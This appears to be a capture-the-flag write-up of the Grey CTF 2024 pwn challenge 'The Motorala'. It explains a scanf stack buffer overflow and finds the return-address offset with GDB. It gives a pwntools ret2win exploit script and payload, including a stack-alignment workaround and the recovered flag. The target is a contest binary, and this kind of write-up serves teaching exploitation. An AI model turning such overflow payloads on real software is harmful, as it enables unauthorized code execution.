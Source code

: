 ```yaml
---
title: Grey CTF Quals 24 "The Motorala"
date: 2024-04-24
description: Writeup for pwn/the-motorala from Grey CTF Quals 2024.
categories:
  - pwn
  - x86-64
---
```


> i bet u wont guess my pin
> 
> Author: Elma

TL;DR - Buffer overflow allowing an overwrite of the return address to a vulnerable function. Simple ret2win challenge but with a stack alignment issue.

<!-- more -->

## Investigating

We're given a binary and a C source file again, looking at it we can see the following areas of interest:

```c title="chall.c" hl_lines="21-25"
...
void view_message() {
	int fd = open("./flag.txt", O_RDONLY);
	char* flag = calloc(0x50, sizeof(char));
	read(fd , flag, 0x50);
	close(fd);
	...
	printf("\n%s\n", flag);
	exit(0);
}

...

void login() {
	char attempt[0x30];
	int count = 5;

	for (int i = 0; i < 5; i++) {
		memset(attempt, 0, 0x30);
		printf("\e[1;91m%d TRIES LEFT.\n\e[0m", 5-i);
		printf("PIN: ");
		scanf("%s", attempt);
		if (!strcmp(attempt, pin)) {
			view_message();
		}
	}
	...
}
...
```

Pretty similar to the `#!c gets()` overflow, we can see `#!c scanf("%s", attempt)`, which is also vulnerable to buffer overflows. We can use the same technique to find the offset to the return address and overwrite it. To find the offset needed to get to the return address, we can use a cyclic pattern and GDB:

```
$ gdb -q chall
Reading symbols from chall...
(No debugging symbols found in chall)
gef➤  pattern create 100
[+] Generating a pattern of 100 bytes (n=8)
aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaa
[+] Saved as '$_gef0'
gef➤  run
...

5 TRIES LEFT.
PIN: aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaa
...

[#0] Id 1, Name: "chall", stopped 0x401564 in login (), reason: SIGSEGV
```

And then we can use GEF's pattern search feature to look for the offset to get past RSP:

```
gef➤  pattern search $rsp
[+] Searching for '6a61616161616161'/'616161616161616a' with period=8
[+] Found at offset 72 (little-endian search) likely
```

## Exploitation

So what's next? Well, we need to figure out the address of `#!c view_message()` so we can simply get a flag print. Again, we can just do this in GDB:

```
gef➤  info func view_message
All functions matching regular expression "view_message":

Non-debugging symbols:
0x000000000040138e  view_message
```

So we have the address `#!c 0x40138e` to jump to. So let's test this real quick in GDB (we'll format the address as little-endian since we're on an x86-64 system):

```
gef➤  run < <(python3 -c 'import sys; sys.stdout.buffer.write(b"A"*72 + b"\x8e\x13\x40")')
...
As you breached the final door to TACYERG's hideout, anticipation surged.
Yet, the room defied expectations – disorder reigned, furniture overturned, documents scattered, and the vault empty.
'Yet another dead end,' you muttered under your breath.
As you sighed and prepared to leave, a glint caught your eye: a cellphone tucked away under unkempt sheets in a corner.
Recognizing it as potentially the last piece of evidence you have yet to find, you picked it up with a growing sense of anticipation.
...

[#0] Id 1, Name: "chall", stopped 0x7ffff7e1a89b in buffered_vfprintf (), reason: SIGSEGV
```

So something went wrong, we got a segfault. I was honestly stumped here for a bit, one of my friends tried the same thing and was puzzled as well. After messing around, they tried a different call method. Instead of jumping into the `#!c view_message()` function, they jumped to the existing call to the function inside the `#!c login()` function as seen here:

```c title="chall.c" hl_lines="12"
...
void login() {
	char attempt[0x30];
	int count = 5;

	for (int i = 0; i < 5; i++) {
		memset(attempt, 0, 0x30);
		printf("\e[1;91m%d TRIES LEFT.\n\e[0m", 5-i);
		printf("PIN: ");
		scanf("%s", attempt);
		if (!strcmp(attempt, pin)) {
			view_message();
		}
	}
	...
}
...
```

To find this address, we can use GDB again:

```hl_lines="9"
gef➤  disas login
Dump of assembler code for function login:
	0x000000000040149f <+0>:     endbr64
	0x00000000004014a3 <+4>:     push   rbp
	...
	0x0000000000401537 <+152>:   test   eax,eax
	0x0000000000401539 <+154>:   jne    0x401545 <login+166>
	0x000000000040153b <+156>:   mov    eax,0x0
	0x0000000000401540 <+161>:   call   0x40138e <view_message>
	0x0000000000401545 <+166>:   add    DWORD PTR [rbp-0x4],0x1
	...
	0x0000000000401564 <+197>:   ret
End of assembler dump.
```

So instead of jumping to `#!c 0x40138e` (address of `#!c view_message()`), we can jump to `#!c 0x401540` instead. Testing this address locally worked, so let's put it all together:

```python title="exploit.py"
from pwn import *

p = process('./chall') # (1)

payload  = b'A' * 72     # fill stack until return address
payload += p64(0x401540) # address of the call to view_message()

p.sendlineafter('PIN: ', payload)
print(p.recvall().decode())
```

1. To send the actual payload to the server we can replace this with `#!py remote('challs.nusgreyhats.org', 30211)`.

Let's run it and get the flag:

```hl_lines="12"
$ python exploit.py
[+] Receiving all data: Done (609B)
[*] Closed connection to challs.nusgreyhats.org port 30211

After five unsuccessful attempts, the phone begins to emit an alarming heat, escalating to a point of no return. In a sudden burst of intensity, it explodes, sealing your fate.


After several intense attempts, you successfully breach the phone's defenses.
Unlocking its secrets, you uncover a massive revelation that holds the power to reshape everything.
The once-elusive truth is now in your hands, but little do you know, the plot deepens, and the journey through the clandestine hideout takes an unexpected turn, becoming even more complicated.

grey{g00d_w4rmup_for_p4rt_2_hehe}
```

And that's the flag!

???+ quote "Post Challenge Thoughts"
	After the competition, I checked to see if anyone else had similar issues. The author mentioned in the Discord:
	> moto 1 has stack alignment issues, so you have to do an extra step of padding your payload with a single ret

	Looking into the [official writeup](https://github.com/NUSGreyhats/greyctf24-challs-public/blob/main/quals/pwn/the-motorala/solution/solve.py), they did this by doing the following:
	```python
	payload  = b"A"*72       # fill stack until return address
	payload += p64(0x40101a) # address to a ret in <_init>
	payload += p64(0x40138e) # address of view_message()
	```

	Looking more into this on my own time, I found a pretty [good resource on stack alignment issues](https://ir0nstone.gitbook.io/notes/types/stack/return-oriented-programming/stack-alignment)